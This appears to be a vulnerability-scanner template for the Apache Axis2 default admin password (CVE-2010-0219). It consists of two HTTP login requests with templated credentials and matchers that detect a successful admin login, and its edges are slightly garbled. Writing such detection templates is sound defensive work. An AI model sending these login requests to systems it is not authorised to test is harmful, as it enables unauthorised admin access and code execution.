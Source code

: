 - status
  1. 200

---

# Apache Axis2 Default Login

## Description

- Apache Axis2, as used in dswsbobje.war in SAP BusinessObjects Enterprise XI 3.2, CA ARCserve D2D r15, and other products, has a default password of axis2 for the admin account, which makes it easier for remote attackers to execute arbitrary code by uploading a crafted web service.
- severity - high
- tags - cve,cve2010,axis,apache,default-login,axis2

## Requests

### Step - 1

```
POST /axis2-admin/login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

loginUsername={{username}}&loginPassword={{password}}

```

### Step - 2

```
POST /axis2/axis2-admin/login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

userName={{username}}&password={{password}}&submit=+Login+

```

### Matchers

**Type - word**

- words
  1. \<h1>Welcome to Axis2 Web Admin Module !!\</h1>

**Type - status**

- status
  1. 200

**Payloads**- username
